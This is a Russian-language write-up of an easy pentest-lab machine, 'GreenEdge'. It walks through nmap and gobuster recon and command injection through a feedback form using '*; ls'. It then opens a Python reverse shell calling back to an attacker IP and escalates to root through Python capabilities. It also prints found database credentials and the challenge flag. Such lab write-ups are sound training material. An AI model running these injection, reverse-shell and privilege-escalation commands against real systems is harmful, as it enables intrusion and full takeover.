 # Отчет по задаче: GreenEdge

**Категория:** Pentest Machines
**Сложность:** Легкая
**Ссылка на задачу:** [Ссылка](https://hackerlab.pro/en/categories/pentest-machines/6b4ece6f-b8e0-43c0-84c7-250cd540bea3)  
**Дата решения:** 23-24 октября 2025 
**Заметки**: [[notes]]
**Найденная информация**: [[loot]]

---

## Описание задачи

GreenEdge недавно развернула обновлённую версию своего внутреннего портала. Система предназначена для облегчения коммуникации между отделами и улучшения рабочих процессов. Некоторые пользователи сообщили о нестабильной работе отдельных компонентов. Инфраструктура уже доступна для анализа.

## Исходные данные

- **Целевой хост**: 192.168.2.219 (через VPN)
- **Цель:** Найти флаг в формате CODEBY{...}

## Разведка (Reconnaissance)

Начал со сканирования сети и анализа веб-приложения:

*   **Инструменты:** `nmap`, `gobuster`
*   **Найденная информация:** 
	* Веб-портал на порту 80 со страницами: `index.php`, `about.php`, `contact.php`, `feedback.php`
	* Форма обратной связи - единственный интерактивный элемент
	* Обнаружен файл `config.php` (возвращает пустой HTML)
	* Директория `assets/` содержит только статические файлы

**Nmap сканирование:**

```bash
nmap -sS -Pn -v -oN general_tcp_ports_scan_nmap 192.168.2.219  # Первоначальное сканирование сети. Вывод в файле `general_tcp_ports_scan`
nmap -Pn -sV -p 80,22 -oN ports_versions_scan 192.168.2.219                     # Сканирование версий портов. Вывод в файле `ports_versions_scan`
```

**Gobuster сканирование**:

```bash
gobuster dir -u http://192.168.2.219 -w dns-small.txt -x php,txt,html -o dir_scan_gobuster # Сканирование директорий и php/txt/html-файлов. Вывод в файле `dir_scan_gobuster`
```

## Анализ уязвимостей (Vulnerability Analysis)

*   **Найденная уязвимость:** Выполнение произвольных команд (RCE) через форму обратной связи
*   **Логика поиска:** 
	* Протестировал XSS - защищено
	* Попробовал SQL-инъекции - нестандартное поведение
	* Обнаружил, что при вводе `SELECT * FROM users` вместо `*` выводится содержимое текущей директории
	* Нашел синтаксис `*; [comand]` для выполнения команд

## Эксплуатация (Exploitation)

*   **Шаг 1:** Подтверждение RCE через выполнение команды `*; ls`
*   **Шаг 2:** Получение reverse shell для удобного доступа
*   **Шаг 3**: Стабилизация оболочки и анализ системы
*   **Шаг 4**: Эскалация привилегий через capabilities Python
*   **Шаг 5**: Поиск и сбор флага из 2-х частей

**Код/Команда:**
```bash
# Reverse Shell
*; export RHOST="192.168.124.79";export RPORT=9901;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

# Privilege Escalation
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# Поиск флага
find / -name "*part*" 2>/dev/null
```

**Дополнительная находка**:

Обнаружен файл `/var/www/html/config.php` с учетными данными БД:

```php
<?php 
$DB_HOST = 'localhost';
$DB_USER = 'root';
$DB_PASS = 'SuperSecret123';
$DB_NAME = 'internal_data';
?>
```

## Решение

**Флаг:** `CODEBY{FR0M_F33DB4CK_70_R007_1337}`
- **Первая часть**: `/home/charley/first_part` - `CODEBY{FR0M_F33DB4CK`
- **Вторая часть**: `/root/last_part` - `_70_R007_1337}`

## Заключение

Задача демонстрирует классические ошибки безопасности: неправильная санитизация пользовательского ввода привела к RCE, а небезопасная конфигурация системы привела к эскалации привилегий.

**Что узнал**:

- Новый синтаксис для тестирования RCE: `*; ls`
- Reverse Shell Generator Online - [ссылка](https://www.revshells.com/)

---
**Полезные ссылки:**
*   [Reverse Shell Generator](https://www.revshells.com/)
* [Linux Privileges Escalation Checklist](https://viperone.gitbook.io/pentest-everything/everything/everything-linux/privilege-escalation-checklist)
* [GTFOBins - Capabilities](https://gtfobins.github.io/#+capabilities)